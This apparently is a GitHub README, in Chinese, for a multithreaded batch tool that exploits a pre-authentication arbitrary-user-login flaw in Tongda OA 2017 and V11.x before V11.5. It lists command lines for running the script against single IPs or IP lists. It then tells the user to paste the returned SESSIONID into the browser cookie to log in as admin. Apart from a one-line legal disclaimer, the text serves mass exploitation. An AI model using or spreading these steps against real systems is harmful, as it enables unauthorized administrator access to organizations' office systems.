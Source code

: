 通达OA 前台任意用户登录漏洞多线程批量检测工具

**声明：使用请遵守网络安全法**

# 使用方法
1. 
Usage: python3 OfficeAnywhere-cpy.py -h 10.10.10.10 -v 11
Usage: python3 OfficeAnywhere-cpy.py -h 10.10.10.10 -v 2017
Usage: python3 OfficeAnywhere-cpy.py -r ip.txt -v 11
Usage: python3 OfficeAnywhere-cpy.py -r ip.txt -v 2017
2. 运行并获取到可用的SESSIONID
3. 替换浏览器Cookie中的SESSIONID即可实现登录为admin

# 影响范围

通达OA2017、V11.X<V11.5
